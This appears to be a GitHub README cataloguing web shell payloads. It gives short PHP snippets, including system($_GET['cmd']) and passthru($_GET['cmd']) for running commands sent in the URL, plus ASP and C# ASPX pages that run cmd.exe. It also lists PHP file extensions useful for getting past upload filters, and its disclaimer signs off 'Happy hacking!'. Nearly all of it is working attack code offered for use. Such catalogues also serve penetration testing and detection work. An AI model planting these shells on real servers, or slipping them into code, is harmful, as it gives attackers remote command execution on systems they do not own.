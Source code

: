# WebShells

> **Disclaimer**  
> This repository is currently under construction. The content is being updated and expanded. New file extensions and detailed descriptions will be added soon. Stay tuned for more additions. Happy hacking!
> This repository could be used with .php4, .php5, .hphp, .hphp, ..wsdl.php, .phar, .phb extensions and more. 

Currently this document outlines the usage of various PHP file extensions commonly used for web shells and their potential to be exploited for Remote Code Execution (RCE).

# PHP Webshells

#### 1. Basic Command Execution Using system()
```php
<?php system("whoami"); ?>
```

#### 2. Passing Commands via URL Parameters with system() (shell.php?cmd=whoami)
```php
<?php system($_GET['cmd']); ?>
```

#### 3. Executing System Commands with passthru()
```php
<?php passthru($_GET['cmd']); ?>
```

#### 4. Capturing Command Output Using shell_exec()
```php
<?php echo shell_exec("whoami"); ?>
```

#### 5. Using exec() to Run Commands (Outputs Only Last Line)
```php
<?php echo exec("whoami"); ?>
```

#### 6. Storing Full Output from exec() as an Array
```php
<?php
exec("ls -la", $output);
print_r($output);
?>
```

#### 7. Backtick Syntax for Simple Command Execution
```php
<?php echo `whoami`; ?>
```

#### 8. Legacy preg_replace() Execution Trick (Deprecated)
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

# ASPX Webshells

#### 1. Classic VBScript-Style ASP Command Execution
```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

#### 2. Executing Commands in C# ASPX with Output Display
```aspx
<%@ Page Language="C#" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c whoami";
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.UseShellExecute = false;
    p.Start();
    string output = p.StandardOutput.ReadToEnd();
    Response.Write("<pre>" + output + "</pre>");
}
</script>
```

